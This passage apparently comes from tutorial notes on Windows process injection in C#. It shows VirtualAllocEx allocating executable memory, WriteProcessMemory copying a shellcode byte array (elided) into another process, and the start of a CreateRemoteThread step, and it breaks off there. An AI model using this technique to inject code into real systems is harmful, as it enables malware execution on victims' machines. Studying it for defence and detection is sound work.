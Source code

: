     ```csharp
    IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
    ```
    
    - `dwSize`: 0x1000 (4KB).
    - `flAllocationType`: `MEM_COMMIT | MEM_RESERVE` (0x3000).
    - `flProtect`: `PAGE_EXECUTE_READWRITE` (0x40).
4. **`WriteProcessMemory` (Writing Shellcode)**
    
    Import:
    
    ```csharp
    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
        byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    ```
    
    Prototype:
    
    ```c
    BOOL WriteProcessMemory(
      HANDLE  hProcess,
      LPVOID  lpBaseAddress,
      LPCVOID lpBuffer,
      SIZE_T  nSize,
      SIZE_T *lpNumberOfBytesWritten
    );
    ```
    
    Usage:
    
    ```csharp
    byte[] buf = new byte[591] {
        0xfc,0x48,0x83,0xe4,0xf0,0xe8,...,0xff,0xd5
    };
    
    IntPtr outSize;
    WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
    ```
    
    - `hProcess`: handle from `OpenProcess`.
    - `lpBaseAddress`: remote allocated memory (`addr`).
    - `lpBuffer`: shellcode byte array.
    - `nSize`: buffer length.
5. **`CreateRemoteThread` (Execution)**
    
    Import:
    
    ```csharp
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes,
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
        uint dwCreationFlags, IntPtr lpThreadId);
    ```
    
    Prototype:
    